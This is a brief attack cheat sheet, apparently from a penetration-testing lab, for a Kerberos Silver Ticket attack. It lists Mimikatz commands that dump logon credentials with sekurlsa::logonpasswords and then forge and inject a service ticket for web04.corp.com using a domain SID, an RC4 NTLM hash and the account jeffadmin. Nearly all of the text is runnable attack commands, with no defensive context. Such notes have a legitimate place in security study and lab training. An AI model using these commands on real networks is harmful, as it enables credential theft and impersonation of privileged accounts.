 # Silver Ticket
Extract NTLM Hash of SPN
<br># Launch Mimikatz as Administrator
<br>privilege::debug
<br>sekurlsa::logonpasswords
# Create and Inject Silver Ticket
<br>kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin

